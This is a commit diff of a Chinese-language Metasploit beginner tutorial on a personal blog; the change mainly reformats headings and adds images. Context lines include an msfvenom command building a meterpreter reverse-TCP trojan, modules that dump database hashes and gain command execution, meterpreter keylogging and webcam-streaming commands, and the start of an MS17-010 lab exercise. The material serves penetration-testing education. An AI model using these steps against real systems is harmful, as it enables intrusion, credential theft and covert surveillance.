

Before and after one commit to volcanohatred/volcanohatred.github.io, a Jekyll site: the page built from _posts/2017-11-1-metasploit-1.md, in a window 1280 px wide and 1400 px high, scrolled down 1144 px. Shown: the whole window at 93% size, without its empty margins (233-1223 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2017-11-1-metasploit-1.md

```diff
--- a/_posts/2017-11-1-metasploit-1.md
+++ b/_posts/2017-11-1-metasploit-1.md
@@ -13,65 +13,86 @@ tags:
 
 ## 1.工具简介
 
-Metasploit未诞生之前
+**Metasploit未诞生之前**
 
 黑客社区中对于漏洞的挖掘研究和渗透代码开发鱼龙混，每个人都有自己的辅助工具和方式挖掘漏洞，对验证代码（poc）的编写也是用自己熟悉的编程语言，因为对不同语言，不同编译方式的代码整合难度较大，导致当时漏洞的利用与渗透测试门槛极高，使当时的渗透测试严重两极化，初学者对黑客社区中的资源无能为力。而且，水平相对较高的渗透测试人员也要花很多时间去对这些代码进行整合，所以当时渗透测试效率极差！
-Metasploit时代来临
+
+**Metasploit时代来临**
 
 Metasploit是由H·D·Moore在2003年夏季创立的一个项目。当时的他正面临着和现在我们在讨论的一样的问题，面对着杂乱无章的漏洞利用代码，浪费了大多数的时间在验证和处理这些代码上面。他意识到开发出一个灵活和可维护的漏洞利用框架平台的重要性。就这样Metasploit就诞生了，Metasploit可以说制定了一套标准框架，通过它可以很容易地获取、开发并对计算机软件漏洞实施攻击。它本身附带数百个已知软件漏洞的专业级漏洞攻击工具。当H.D. Moore在2003年发布Metasploit时，计算机安全状况也被永久性地改变了。仿佛一夜之间，任何人都可以成为黑客，每个人都可以使用攻击工具来攻击那些未打过补丁或者刚刚打过补丁的漏洞。软件厂商再也不能推迟发布针对已公布漏洞的补丁了，这是因为Metasploit团队一直都在努力开发各种攻击工具，并将它们贡献给所有Metasploit用户。也就是说Metasploit的诞生使得渗透测试的门槛低了很多，当然这也间接促进了网络空间安全的快速完善和发展。
+
 ## 2.下载地址
 
-https://www.metasploit.com/download
-https://github.com/rapid7/metasploit-framework/wiki/Downloads-by-Version
-3.基础教程
-3.1基本框架介绍
+`https://www.metasploit.com/download`
 
+`https://github.com/rapid7/metasploit-framework/wiki/Downloads-by-Version`
+## 3.基础教程
 
-上图为v4之前版本结构框架，现已不再适用，新版本metasploit框架（简称msf）中msfencode和msfpayload已被msfvenom取代，另外接口现在只有msfconsole和armitage！！！列出来只是为了方便我们理解metasploit框架的基本结构，为以后学习打下基础。
+### 3.1基本框架介绍
 
-基础库文件
+![框架](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/基础篇/图片1.png)
+
+**上图为v4之前版本结构框架，现已不再适用**，新版本metasploit框架中msfencode和msfpayload已被msfvenom取代，另外接口现在只有msfconsole和armitage！！！列出来只是为了方便我们理解metasploit框架的基本结构，为以后学习打下基础。
+
+**基础库文件**
 　　metasploit基础库文件位于源码根目录路径下的libraries目录中，包括Rex,framework-core和framework-base三部分。
 　　Rex是整个框架所依赖的最基础的一些组件，如包装的网络套接字、网络应用协议客户端与服务端实现、日志子系统、渗透攻击支持例程、PostgreSQL以及MySQL数据库支持等；
 　　framework-core库负责实现所有与各种类型的上层模块及插件的交互接口；
 　　framework-base库扩展了framework-core，提供更加简单的包装例程，并未处理框架各个方面的功能提供了一些功能类，用于支持用户接口与功能程序调用框架本身功能及框架集成模块；
-模块
-　　模块是通过Metasploit框架所装载、集成并对外提供的最核心的渗透测试功能实现代码。分为辅助模块（Aux)、渗透攻击模块（Exploits)、后渗透攻击模块（Post)、攻击载荷模块（payloads)、编码器模块（Encoders)、空指令模块（Nops)。这些模块拥有非常清晰的结构和一个预定义好的接口，并可以组合支持信息收集、渗透攻击与后渗透攻击拓展。
-    辅助模块（aux）
-　　　　　在渗透信息搜集环节提供了大量的辅助模块支持，包括针对各种网络服务的扫描与查点、构建虚假服务收集登录密码、口令猜测等模块。
-    渗透攻击模块（exploits）
-　　　　利用发现的安全漏洞或配置弱点对远程目标系统进行攻击，以植入和运行攻击载荷，从而获得对目标系统访问控制权的代码组件。metasploit框架中渗透攻击模块可以按照所利用的安全漏洞所在的位置分为主动渗透攻击与被动渗透攻击两大类。
-　　　　主动渗透攻击：所利用的安全漏洞位于网络服务端软件与服务端软件承载的上层应用程序之中，由于这些服务通常是在主机上开启一些监听端口并等待客户端连接，通过连接目标系统网络服务，注入一些特殊构造的包含“邪恶”攻击数据的网络请求内容，触发安全漏洞，并使得远程服务进行执行“邪恶”数据中包含的攻击载荷，从而获取目标系统的控制会话。针对网络服务端的主动渗透攻击属于传统的渗透攻击。还有web应用程序渗透攻击、SCADA工业控制系统服务渗透攻击。
-　　　　被动渗透攻击：利用漏洞位于客户端软件中，如浏览器、浏览插件、电子邮件客户端、office与Adobe等各种文档与编辑软件。对于这类存在于客户端软件的安全漏洞，我们无法主动地将数据从远程输入到客户端软件中，因此只能采用被动渗透攻击方式。即构造出“邪恶”的网页、电子邮件或文档文件，并通过架设包含此类恶意内容的服务端、发送邮件附件、结合社会工程学攻击分发并诱骗目标用户打开、结合网络欺骗和劫持技术，等目标系统上的用户访问到这些邪恶内容，从而触发客户端软件中的安全漏洞，给出控制目标系统的shell会话。客户端软件被动渗透攻击能够绕过防火墙等网络边界防护措施，最常见的两类被动渗透攻击为浏览器软件漏洞攻击和文件格式类漏洞攻击。
-    攻击载荷模块（payloads）
-　　　　攻击载荷是在渗透攻击成功后促使目标系统运行的一段植入代码，通常作用是为渗透攻击者打开在目标系统上的控制会话连接。在传统的渗透代码开发中，攻击载荷只是一段功能简单的ShellCode代码，以汇编语言编制并转换为目标系统CPU体系结构支持的机器代码，在渗透攻击触发漏洞后，将程序执行流程劫持并跳转入这段机器代码中执行，从而完成ShellCode中实现的单一功能。
-　　　　metasploit攻击载荷模块分为独立（Single)、传输器（Stager)、传输体（Stage)三种类型。
 
-　　　　独立攻击载荷是完全自包含的，可直接独立地植入目标系统进行执行，比如“windows/shell_bind_tcp"是适用于Windows操作系统平台，能够将Shell控制会话绑定在指定TCP端口上的攻击载荷。在一些比较特殊情况下，可能会对攻击载荷的大小、运行条件有所限制，比如特定安全漏洞利用时可填充邪恶攻击缓冲区的可用空间很小、windows 7等新型操作系统所引入的NX(堆栈不可执行）、DEP(数据执行保护）等安全防御机制，在这些场景情况下，Metasploit提供了传输器和传输体配对分阶段植入的技术，由渗透攻击模块首先植入代码精悍短小且非常可靠的传输器载荷，然后在运行传输器载荷时进一步下载传输体载荷并执行。
-    空指令模块（nops）
-　　　　空指令（NOP)是一些对程序运行状态不会造成任何实质影响的空操作或无关操作指令，最典型的空指令就是空操作，在X86 CPU体系结构平台上的操作码是ox90.
-　　　　在渗透攻击构造邪恶数据缓冲区时，常常要在真正要执行的Shellcode之前添加一段空指令区，这样当触发渗透攻击后跳转执行ShellCode时，有一个较大的安全着陆区，从而避免受到内存地址随机化、返回地址计算偏差等原因造成的ShellCode执行失败，提高渗透攻击的可靠性。
-    编码器模块（encoders）
-　　　　攻击载荷与空指令模块组装完成一个指令序列后，在这段指令被渗透攻击模块加入邪恶数据缓冲区交由目标系统运行之前，Metasploit框架还需要完成一道非常重要的工序----编码。
-　　　　编码模块的第一个使命是确保攻击载荷中不会出现渗透攻击过程中应加以避免的”坏字符“。
-　　　　编码器第二个使命是对攻击载荷进行”免杀“处理，即逃避反病毒软件、IDS入侵检测系统和IPS入侵防御系统的检测与阻断。
-    后渗透模块（post）
-　　　　主要支持在渗透攻击取得目标系统远程控制权之后，在受控系统中进行各种各样的后渗透攻击动作，比如获取敏感信息，进一步括展，实施跳板攻击等。
-插件
-　　插件能够扩充框架的功能，或者组装已有功能构成高级特性的组件。插件可以集成现有的一些外部安全工具，如Nessus、OpenVAS漏洞扫描器等，为用户接口提供一些新的功能。
-接口
-　　msfconsole控制终端、armitage图形化界面。
-功能程序
-　　除了用户使用用户接口访问metasploit框架主体功能之外，metasploit还提供了一系列可直接运行的功能程序，支持渗透测试者与安全人员快速地利用metasploit框架内部能力完成一些特定任务。msfvenom可以将攻击载荷封装为可执行文件、C语言、JavaScript语言等多种形式，并可以进行各种类型的编码。msf*scan系列功能程序提供了在PE、ELF等各种类型文件中搜索特定指令的功能，可以帮助渗透代码开发人员定位指令地址。
-3.2接口
-3.2.1 Msfconsole控制终端
+**模块**
+模块是通过Metasploit框架所装载、集成并对外提供的最核心的渗透测试功能实现代码。分为辅助模块（Aux)、渗透攻击模块（Exploits)、后渗透攻击模块（Post)、攻击载荷模块（payloads)、编码器模块（Encoders)、空指令模块（Nops)。这些模块拥有非常清晰的结构和一个预定义好的接口，并可以组合支持信息收集、渗透攻击与后渗透攻击拓展。
+
+*辅助模块（aux）*
+在渗透信息搜集环节提供了大量的辅助模块支持，包括针对各种网络服务的扫描与查点、构建虚假服务收集登录密码、口令猜测等模块。
+
+*渗透攻击模块（exploits）*
+利用发现的安全漏洞或配置弱点对远程目标系统进行攻击，以植入和运行攻击载荷，从而获得对目标系统访问控制权的代码组件。metasploit框架中渗透攻击模块可以按照所利用的安全漏洞所在的位置分为主动渗透攻击与被动渗透攻击两大类。
+主动渗透攻击：所利用的安全漏洞位于网络服务端软件与服务端软件承载的上层应用程序之中，由于这些服务通常是在主机上开启一些监听端口并等待客户端连接，通过连接目标系统网络服务，注入一些特殊构造的包含“邪恶”攻击数据的网络请求内容，触发安全漏洞，并使得远程服务进行执行“邪恶”数据中包含的攻击载荷，从而获取目标系统的控制会话。针对网络服务端的主动渗透攻击属于传统的渗透攻击。还有web应用程序渗透攻击、SCADA工业控制系统服务渗透攻击。
+被动渗透攻击：利用漏洞位于客户端软件中，如浏览器、浏览插件、电子邮件客户端、office与Adobe等各种文档与编辑软件。对于这类存在于客户端软件的安全漏洞，我们无法主动地将数据从远程输入到客户端软件中，因此只能采用被动渗透攻击方式。即构造出“邪恶”的网页、电子邮件或文档文件，并通过架设包含此类恶意内容的服务端、发送邮件附件、结合社会工程学攻击分发并诱骗目标用户打开、结合网络欺骗和劫持技术，等目标系统上的用户访问到这些邪恶内容，从而触发客户端软件中的安全漏洞，给出控制目标系统的shell会话。客户端软件被动渗透攻击能够绕过防火墙等网络边界防护措施，最常见的两类被动渗透攻击为浏览器软件漏洞攻击和文件格式类漏洞攻击。
+
+*攻击载荷模块（payloads）*
+攻击载荷是在渗透攻击成功后促使目标系统运行的一段植入代码，通常作用是为渗透攻击者打开在目标系统上的控制会话连接。在传统的渗透代码开发中，攻击载荷只是一段功能简单的ShellCode代码，以汇编语言编制并转换为目标系统CPU体系结构支持的机器代码，在渗透攻击触发漏洞后，将程序执行流程劫持并跳转入这段机器代码中执行，从而完成ShellCode中实现的单一功能。
+metasploit攻击载荷模块分为独立（Single)、传输器（Stager)、传输体（Stage)三种类型。
+
+独立攻击载荷是完全自包含的，可直接独立地植入目标系统进行执行，比如“windows/shell_bind_tcp"是适用于Windows操作系统平台，能够将Shell控制会话绑定在指定TCP端口上的攻击载荷。在一些比较特殊情况下，可能会对攻击载荷的大小、运行条件有所限制，比如特定安全漏洞利用时可填充邪恶攻击缓冲区的可用空间很小、windows 7等新型操作系统所引入的NX(堆栈不可执行）、DEP(数据执行保护）等安全防御机制，在这些场景情况下，Metasploit提供了传输器和传输体配对分阶段植入的技术，由渗透攻击模块首先植入代码精悍短小且非常可靠的传输器载荷，然后在运行传输器载荷时进一步下载传输体载荷并执行。
+
+*空指令模块（nops）*
+空指令（NOP)是一些对程序运行状态不会造成任何实质影响的空操作或无关操作指令，最典型的空指令就是空操作，在X86 CPU体系结构平台上的操作码是ox90.
+在渗透攻击构造邪恶数据缓冲区时，常常要在真正要执行的Shellcode之前添加一段空指令区，这样当触发渗透攻击后跳转执行ShellCode时，有一个较大的安全着陆区，从而避免受到内存地址随机化、返回地址计算偏差等原因造成的ShellCode执行失败，提高渗透攻击的可靠性。
+
+*编码器模块（encoders）*
+攻击载荷与空指令模块组装完成一个指令序列后，在这段指令被渗透攻击模块加入邪恶数据缓冲区交由目标系统运行之前，Metasploit框架还需要完成一道非常重要的工序----编码。
+编码模块的第一个使命是确保攻击载荷中不会出现渗透攻击过程中应加以避免的”坏字符“。
+编码器第二个使命是对攻击载荷进行”免杀“处理，即逃避反病毒软件、IDS入侵检测系统和IPS入侵防御系统的检测与阻断。
+
+*后渗透模块（post）*
+主要支持在渗透攻击取得目标系统远程控制权之后，在受控系统中进行各种各样的后渗透攻击动作，比如获取敏感信息，进一步括展，实施跳板攻击等。
+
+**插件**
+插件能够扩充框架的功能，或者组装已有功能构成高级特性的组件。插件可以集成现有的一些外部安全工具，如Nessus、OpenVAS漏洞扫描器等，为用户接口提供一些新的功能。
+
+**接口**
+msfconsole控制终端、armitage图形化界面。
+
+**功能程序**
+除了用户使用用户接口访问metasploit框架主体功能之外，metasploit还提供了一系列可直接运行的功能程序，支持渗透测试者与安全人员快速地利用metasploit框架内部能力完成一些特定任务。msfvenom可以将攻击载荷封装为可执行文件、C语言、JavaScript语言等多种形式，并可以进行各种类型的编码。msf*scan系列功能程序提供了在PE、ELF等各种类型文件中搜索特定指令的功能，可以帮助渗透代码开发人员定位指令地址。
+### 3.2接口
+#### 3.2.1 Msfconsole控制终端
 msfconsole提供了一个一体化的集中控制台。通过msfconsole，你可以访问和使用所有的metasploit的插件，payload，利用模块，post模块等等。msfconsole还有第三方程序的接口，比如nmap，sqlmap等，可以直接在msfconsole里面使用。
 windows打开cmd，linux打开终端，输入msfconsole，然后回车。这样就打开了msfconsole。msfconsole的系统文件和用户文件在linux中位于/usr/share/metasploit-framework/msfconsole目录下。
 
-Linux（kali）平台
+![框架](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/基础篇/图片2.png)
 
-Windows平台
+*Linux（kali）平台*
+
+![框架](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/基础篇/图片3.png)
+
+*Windows平台*
 当打开msfconsole后，红色的方框里面清楚的标记了Metasploit所有的利用模块、payload、post模块等等。msfconsole有两个查看帮助的选项。一个是msfconsole -h，一个是help。msfconsole –h是显示在msfconsole初始化的选项和参数。而help则是显示进入msfconsole后可以利用的选项。
 msfconsole –h参数
+
+![框架](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/metasploit/基础篇/图片3.png)
 
 ‍‍全部参数的解释和利用‍‍
 ‍‍help‍‍参数
@@ -165,7 +186,7 @@ http://www.freebuf.com/sectool/56432.html
 这个命令用的很多。请一定认真看。如果单纯的输入show，那么就会显示出所有的payload，利用模块，post模块，插件等等。但是一般我们都不这么使用。
 如果要显示利用模块，那么就输入show exploits。如果要显示payload，那么就输入show payloads。总共可以使用的是那么几个命令，;show auxiliary;, ;show exploits;, ;show payloads;, ;show encoders;, 和 ;show nops;。
 如果我进去了某一个利用模块后，要查看这个利用模块的可以加载的负荷就输入show payloads。这里可以自由发挥。
-3.2.2 armitage图形化界面
+#### 3.2.2 armitage图形化界面
 Armitage是一款基于GUI开发的图形化渗透工具，类似nmap和zenmap的区别，它将msfconsole终端图形化，使操作更简单，适合初学者入门。随着学习的深入，不建议使用armitage进行渗透测试。本文只在此处只是简单的介绍。
 使用：
 在console终端中输入armitage就可以进入界面了。
@@ -188,7 +209,7 @@ Armitage是一款基于GUI开发的图形化渗透工具，类似nmap和zenmap
 
 选择Log Keystrokes进行键盘记录，此处只是选择了一个，当然还可以进行一系列的后渗透操作，比如窃取摄像头等。
 
-3.3模块
+### 3.3模块
 上面讲解了接口，现在来说一下模块，在msf中模块可以说贯穿着整个框架，从对目标的信息收集到后面的攻击，都离不开模块的支持。本节主要讲解辅助模块。
 辅助模块位于 安装目录/modules/auxiliary/下，涉及各种辅助模块，有主机发现，端口扫描，服务检测等等，当然辅助模块的大部分功能nmap都可以实现，且效率应该高于msf本身带的辅助模块，因为msf支持程序内调用其它工具。
 在msfconsole里面输入：show auxiliary
@@ -216,7 +237,7 @@ use auxiliary/scanner/mysql/mysql_hashdump（数据库用户hash提取）
 use exploit/windows/mysql/mysql_mof（利用数据库用户密码得到一个meterpreter会话）（use exploit/windows/mssql/mssql_payload）也可以
 use auxiliary/admin/mssql/mssql_exec（利用数据库密码得到cmd（高权限）的命令执行）
 
-3.4功能程序
+### 3.4功能程序
 Metasploit框架v4之后提供的功能程序只有msfvenom和msf*scan了，这两个的基本功能和作用在前面的框架介绍中讲过，这里就只讲讲msfvenom，msf*scan因为涉及汇编，调试等基础，所以会在以后的msf高级用法中讲到。v4之前，攻击载荷封装为可执行文件、C语言、JavaScript语言等多种形式并进行各种类型的编码需要msfpayload、msfencode和msfvenom协助完成，所以v4之后将它们的功能集成在msfvenom中，所以msfvenom功能很强大！在基础教程中只讲讲用msfvenom生成简单木马，后面的编码等在进阶中会讲到。
 利用msfvenom生成简单木马
 Linux
@@ -300,7 +321,7 @@ msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.106.1 LPORT=6666 -f raw >
 手动安卓应用中注入msf后门
 http://www.4hou.com/mobile/5794.html
 简易木马的用途有限，就是自己有对方主机的掌控权，或者对方没有杀软，不然像这种级别的木马是百分之百会被查杀的！！！
-3.5后渗透阶段
+### 3.5后渗透阶段
 后渗透阶段即拿到目标主机反弹的shell后或者在对目标的渗透中离目标主机所在网络位置更进一步后所处的阶段。这个阶段很关键，涉及到对目标机密数据的窃取，和后门安置以及免杀等方面的操作，也是渗透测试中极为关键的一步，后文的进阶会有专门的专题讲解。在msf中，shell类型也就是payload的类型，Metasploit提供了很多payload，meterpreter算是高级payload了。既然是高级payload当然自有它的优势，meterpreter支持多平台，并且可扩展，纯内存的工作模式，而且支持流量加密，所以meterpreter是metasploit框架中必不可少的部分。
 ? – 帮助菜单
 background – 将当前会话移动到背景
@@ -377,7 +398,7 @@ webcam_list-查看摄像头列表
 webcam_snap-拍摄一张照片
 webcam_stream-开始摄像监控
 当然这些命令不是都能成功执行的，好多会被杀软查杀，还有好多需要系统权限，这个后面的meterpreter后渗透专题会继续深入。
-3.6实战练习
+### 3.6实战练习
 上文介绍了metasploit大体的结构和简单的用法，现在我们利用所学的知识对一台有漏洞的主机进行测试攻击：
 任务：已知局域网中的几台主机都存在ms17010漏洞，请利用msf进行攻击！！
 首先用nmap对机房局域网进行了扫描(当然可以利用msf的辅助模块进行扫描的）：
```
